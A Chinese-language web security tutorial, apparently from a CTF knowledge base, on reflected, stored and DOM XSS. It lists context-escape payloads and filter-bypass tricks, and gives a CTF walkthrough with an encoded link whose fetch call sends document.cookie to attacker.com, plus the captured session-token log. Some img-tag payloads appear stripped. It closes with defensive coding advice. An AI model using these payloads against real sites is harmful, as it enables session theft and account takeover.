

# 🎭 跨站脚本攻击 (XSS) 深度剖析：反射型、存储型、DOM 型与多维上下文逃逸矩阵

> **前端安全本质**：同源策略（Same-Origin Policy，SOP）是现代浏览器安全的基石，它严格隔离不同源（协议、域名、端口）之间的 DOM、Cookie 与网络存储。
> 跨站脚本攻击（Cross-Site Scripting，XSS）的核心威慑力在于：**通过代码注入将恶意 JavaScript 脚本直接植入目标网站的受信任上下文内部执行**！
> [!NOTE] 💡 小白通俗扫盲：三分钟搞懂前端核心概念与黑客利用
> * **什么是 DOM（文档对象模型）？**
>   * 浏览器拿到后端的 HTML 代码时，并不是直接把文字印在屏幕上，而是在内存里搭建了一棵**活生生的可交互树状结构——DOM 树**。
>   * 树上的每个枝叶就是一个 HTML 标签（如 `<div>`、`<input>`）。JavaScript 可以随时修改这棵树的枝叶。当黑客向 DOM 树强行嫁接一段带毒的枝叶时，DOM 型 XSS 就爆发了！
> * **什么是 Cookie？为什么黑客千方百计要偷它？**
>   * HTTP 协议是无状态的（服务器记不住谁是谁）。当你登录网站后，服务器发给你一张写着你独一无二身份凭据的**数字胸牌（Cookie）**；
>   * 此后你每次点击网页，浏览器都会自动佩戴这张胸牌；
>   * 如果黑客通过 XSS 在你浏览器里执行了 `document.cookie`，就能直接抢走你的胸牌并贴在黑客自己的浏览器上，无需账号密码直接免密登录你的个人账号！
> * **为什么常用 `` 代替 `<script>`？**
>   * 很多新手以为 XSS 必须写 `<script>alert(1)</script>`。但许多现代框架对 `<script>` 标签有死板的过滤，且直接用 `innerHTML` 插入 `<script>` 默认不会被浏览器执行！
>   * 破局神技：`` 是图片标签，`src=x` 让浏览器去下载一张名为 `x` 的图片；
>   * 因为 `x` 根本不存在，浏览器下载必然失败；
>   * 失败的瞬间，浏览器会自动触发该标签上的 **`onerror`（加载失败容错处理）** 事件，从而自动执行后面的 JavaScript 代码，**完全不需要用户用鼠标去点击任何东西**！

---


> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。

## 一、XSS 三大分类底层数据流与生命周期对比

```mermaid
flowchart TD
    subgraph Reflected ["1. 反射型 XSS (Reflected)"]
        R_In["受害者点击恶意链接 (带 Payload 参数)"] --> R_Server["Web 服务器未经转义直接反射回响应体"]
        R_Server --> R_Exec["受害者浏览器解析 HTML 时执行恶意 JS"]
    end

    subgraph Stored ["2. 存储型 XSS (Stored)"]
        S_In["攻击者提交恶意评论/个人资料"] --> S_DB["后端直接持久化写入数据库"]
        S_DB --> S_Victim["任何受害者访问该页面，服务器从 DB 读取并渲染"]
        S_Victim --> S_Exec["持久化触发执行 (影响所有访客)"]
    end

    subgraph DOM_Based ["3. DOM 型 XSS (DOM-Based)"]
        D_In["客户端环境产生数据: location.hash / search"] --> D_Source["客户端 JS Source 提取恶意输入"]
        D_Source --> D_Sink["前端直接传入不安全 Sink (如 innerHTML)"]
        D_Sink --> D_Exec["纯前端浏览器动态重绘 DOM 触发 (无需服务端参与!)"]
    end
```



---

## 二、DOM 型 XSS 核心：Source 与 Sink 映射矩阵

DOM 型 XSS 是一种完全发生在浏览器端的客户端代码漏洞，**服务端的 HTTP 响应中甚至可能完全没有出现恶意 Payload**！

### 1. 危险数据源（Sources）
用户可通过 URL 或前端环境直接控制的数据入口：
* **`location.search`**（URL 问号后的查询参数）
* **`location.hash`**（URL 井号后的锚点数据，**该部分甚至不会发送给后端服务器**！）
* **`document.referrer`**（跳转前的前置页面 URL）
* **`window.name`**（跨页面共享的全局窗口名称）
* **`postMessage`**（跨域通信接收到的未经源校验的消息事件）

### 2. 危险汇聚点（Sinks）
浏览器执行渲染或脚本的敏感 API：

| 汇聚点 (Sink) | 危险级别 | 底层行为与执行原理 |
| :--- | :--- | :--- |
| **`element.innerHTML`** / **`outerHTML`** | 极高 | 将字符串直接解析为 HTML DOM 节点。**注意：直接插入 `<script>` 标签不会被现代浏览器执行，但 ``, `<svg>`, `<iframe>` 的事件处理器会立即触发！** |
| **`document.write()`** / **`writeln()`** | 极高 | 直接向文档流写入原始 HTML。**支持直接执行 `<script>` 标签！** |
| **`eval()`** / **`setTimeout(str)`** / **`setInterval(str)`** | 极高 | 将字符串直接送入 JavaScript 解释器执行 |
| **`location.href`** / **`location.replace()`** | 高 | 若可控以 `javascript:` 伪协议开头的字符串，立即在当前域执行代码 |
| **`element.setAttribute('onclick', ...)`** | 高 | 动态绑定元素点击或焦点事件执行代码 |

---

## 三、上下文逃逸（Context Escaping）实战破局矩阵

在实战渗透中，用户输入会被渲染在 HTML 的不同语法节点中。**无法脱离具体上下文谈 XSS 利用**，必须根据上下文精准构造闭合符！



### 1. 上下文一：HTML 文本内容区（Body Context）
* **场景模板**：`<div>搜索结果：{USER_INPUT}</div>`
* **逃逸策略**：直接闭合当前标签或直接插入新 HTML 标签：
  ```html
  <script>alert(document.domain)</script>
  
  <svg onload=alert(1)>
  ```

---

### 2. 上下文二：HTML 属性值区（Attribute Context）
* **场景模板**：`<input type="text" name="keyword" value="{USER_INPUT}">`

#### (1) 闭合标签策略（若 `<>` 未被转义）：
```html
"><script>alert(1)</script>
">
```
* **解析效果**：`">` 提前终结了当前的 `<input>` 标签，紧接着解析后面的恶意标签！

#### (2) 不闭合标签，新增事件处理器（若 `<>` 被拦截，但引号未转义！）：
```html
" onfocus="alert(1)" autofocus="
" onclick="alert(1)"
```
* **渲染效果**：
  `<input type="text" name="keyword" value="" onfocus="alert(1)" autofocus="">`
* **执行效果**：页面加载时 `autofocus` 自动聚焦到输入框，瞬间无感知触发 `onfocus` 恶意代码！

---

### 3. 上下文三：JavaScript 代码块区（Script Context）
* **场景模板**：
  ```html
  <script>
      let siteName = '{USER_INPUT}';
      console.log("Welcome to " + siteName);
  </script>
  ```

#### (1) 引号截断与分号拼接：
* 注入：`';alert(document.cookie);//`
* 渲染效果：
  ```javascript
  let siteName = '';alert(document.cookie);//';
  ```
  * 分号 `;` 终结赋值语句，立即执行 `alert()`，后续的双斜杠 `//` 将原有的单引号与分号注释掉！

#### (2) 越俎代庖：直接关闭 `<script>` 标签（神级绕过）
* 注入：`</script>`
* **浏览器 HTML 词法分析器底层机制**：
  HTML 词法解析器在扫描到 `<script>` 内部时，**一旦遇到字符串 `</script>`，不管当前处于 JS 单引号、双引号、多行注释还是正则表达式内部，都会立刻无条件关闭当前脚本块！**
  随后直接将后面的内容切换回 HTML 解析模式，完美绕过复杂的 JS 语法闭合！

---

### 4. 上下文四：URL 超链接属性区（Href Context）
* **场景模板**：`<a href="{USER_INPUT}">访问个人主页</a>`
* **逃逸策略**：利用 `javascript:` 伪协议：
  ```html
  javascript:alert(document.domain)
  ```
* **HTML 实体自动解码特性**：
  根据浏览器规范，在解析 HTML 属性值时，**浏览器会先对属性值进行 HTML 实体解码，再将其送入后续逻辑（如 URL 跳转）！**
  因此，即便后端拦截了字符串 `javascript:`，通过 HTML 实体转码即可无损绕过：
  ```html
  <a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:alert(1)">点击领取红包</a>
  ```

---

## 四、WAF 与极端过滤器绕过高级语法变形

当 WAF 规则拉黑了单双引号、圆括号 `()` 或特定关键字时：

### 1. 禁用圆括号 `()` 绕过
在 JavaScript 中调用函数不仅有 `func()` 一种方式：

#### (1) 反引号模板字符串（Template Literals）
```javascript
alert`1`
confirm`pwned`
```

#### (2) `onerror` 异常捕获抛出法
```javascript
onerror=alert;throw 1;
```
* **机制**：将全局 `window.onerror` 绑定为 `alert` 函数，随后使用 `throw 1;` 触发异常，浏览器自动调用 `alert(1)`！

#### (3) `location` 伪协议跳转
```javascript
location='javascript:alert%281%29'
```

---

### 2. 禁用单双引号绕过
* 使用正则表达式字面量转字符串：`/flag/.source`
* 使用 `String.fromCharCode()`：`String.fromCharCode(97,108,101,114,116)`
* 使用 URL 编码的 `location.hash` 动态截取：`eval(location.hash.slice(1))`

---

## 五、CTF 实战靶场案例复现

### 靶场情境：个人中心 DOM XSS 审计与 Cookie 外带

#### 前端脆弱代码：
```html
<!DOCTYPE html>
<html>
<head><title>User Dashboard</title></head>
<body>
    <h1>Welcome, <span id="username">Guest</span>!</h1>
    <script>
        // 从 URL 参数提取用户名
        const params = new URLSearchParams(window.location.search);
        const user = params.get('name');
        
        if (user) {
            // 💥 致命错误：直接使用 innerHTML 将用户输入拼入 DOM
            document.getElementById('username').innerHTML = user;
        }
    </script>
</body>
</html>
```

### 1. 代码审计与限制突破
* **Source**：`window.location.search` 中的 `name` 参数。
* **Sink**：`document.getElementById('username').innerHTML`。
* **浏览器防御机制**：如果注入 `<script>alert(1)</script>`，现代浏览器遵循 HTML5 规范，**不会执行通过 `innerHTML` 插入的 `<script>` 标签！**
* **破局方案**：使用带事件处理器的自触发标签（如 `` 或 `<svg>`）：
  ```html
  
  ```

### 2. 构造攻击链接与 Payload 编码

```text
http://challenge.ctf:8080/dashboard.html?name=%3Cimg%20src%3Dx%20onerror%3D%22fetch(%27http%3A%2F%2Fattacker.com%2Fsteal%3Fcookie%3D%27%2BencodeURIComponent(document.cookie))%22%3E
```

### 3. 受害者端触发与攻击者外带日志验证

当受害者（或 CTF 靶场的 Headless Chrome Bot）点击该链接时：
1. 浏览器解析参数并将 `` 插入 `#username`；
2. 浏览器尝试加载 `src=x` 失败，触发 `onerror` 事件；
3. 执行 `fetch` 请求，向攻击者控制的服务器回传特权 Cookie：

```http
GET /steal?cookie=session_token%3DeyJhbGciOiJIUzI1Ni...%3B%20flag%3Dflag%7Bxss_d0m_c0nt3xt_3sc4p3_g0d%7D HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
```
成功在前端无缝捕获管理后台会话 Token 与靶机 Flag！

---

## 六、防御规范与安全编码方案

1. **坚持使用安全的 DOM 属性更新内容**：
   * 严禁用 `innerHTML` 渲染不可信数据，改用 **`textContent`** 或 **`innerText`**：
     ```javascript
     // ✅ 安全实践：浏览器将其视为纯文本，绝不进行 HTML 标记解析
     document.getElementById('username').textContent = user;
     ```
2. **上下文敏感转义（Context-Aware Encoding）**：
   * **HTML 实体编码**：转义 `& < > " ' /` 为 `&amp; &lt; &gt; &quot; &#x27; &#x2F;`；
   * **JavaScript 变量编码**：对特殊字符使用 `\xHH` 或 `\uHHHH` 十六进制转义，且外层始终包裹双引号；
3. **Cookie 安全标志加固**：
   * **`HttpOnly`**：禁止 JavaScript 读取敏感 Session Cookie，斩断通过 XSS 窃取 Cookie 的攻击链；
   * **`SameSite=Lax` / `Strict`**：限制跨站携带 Cookie；
   * **`Secure`**：仅允许 HTTPS 传输。

---

## 🔗 相关双向链接
- 上级模块：[[08-XSS与前端攻击面]]
- 防御对抗：[[02-CSP(内容安全策略)原理与各种Bypass技巧]]
- 跨站扩展：[[03-CSRF跨站请求伪造与SameSite属性攻防]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
